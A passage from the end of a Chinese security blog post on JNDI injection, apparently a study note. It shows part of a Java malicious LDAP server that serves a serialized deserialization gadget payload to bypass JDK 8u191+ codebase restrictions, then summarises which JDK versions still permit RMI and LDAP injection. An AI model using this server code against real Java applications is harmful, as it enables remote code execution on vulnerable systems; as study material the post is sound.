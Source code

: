 ```java  
        }  
  
        /**  
         * {@inheritDoc}  
         *  
         * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)  
         */  
        @Override  
        public void processSearchResult(InMemoryInterceptedSearchResult result) {  
            String base = result.getRequest().getBaseDN();  
            Entry e = new Entry(base);  
            try {  
                sendResult(result, base, e);  
            } catch (Exception e1) {  
                e1.printStackTrace();  
            }  
  
        }  
  
        protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws Exception {  
  
            //jdk8u191之后  
            e.addAttribute(&#34;javaClassName&#34;, &#34;foo&#34;);  
            //getObject获取Gadget  
  
            e.addAttribute(&#34;javaSerializedData&#34;, serializeObject(getPayload()));  
  
            result.sendSearchEntry(e);  
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));  
        }  
    }  
}  
```  
和低版本`JDK`运行的`Server`端代码差不多，就把`sendResult`处的代码改成能触发反序列化漏洞的利用链就可以。  
## 总结  
- `JDK 5U45`、`6U45`、`7u21`、`8u121` 开始 `java.rmi.server.useCodebaseOnly` 默认配置为`true`  
- `JDK 6u132`、`7u122`、`8u113` 开始 `com.sun.jndi.rmi.object.trustURLCodebase` 默认值为`false`  
- `JDK 11.0.1`、`8u191`、`7u201`、`6u211` 开始 `com.sun.jndi.ldap.object.trustURLCodebase` 默认为`false`  
由于`JNDI`注入动态加载的原理是使用`Reference`使用`Object Factory`类，其内部在上文中也分析到了使用的是`URLClassLoader`，所以不受`java.rmi.server.useCodebaseOnly=false`属性的限制。但是不可避免受到`com.sun.jndi.rmi.object.trustURLCodebase`、`com.sun.jndi.cosnaming.object.trustURLCodebase`的限制。  
`JNDI-RMI`的注入方式有`codebase`(JDK6u132、7u122、8u113之前可以)  
利用本地`Class Factory`作为`Reference Factory`  
`JNDI-LDAP`注入方式`codebase`(JDK 11.0.1、8u191、7u201、6u211之前可以)  
利用`serialize`  
## Reference  
https://tttang.com/archive/1611/  
https://paper.seebug.org/1091/  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/jndi%E5%AD%A6%E4%B9%A0%E8%AE%B0%E5%BD%951/  

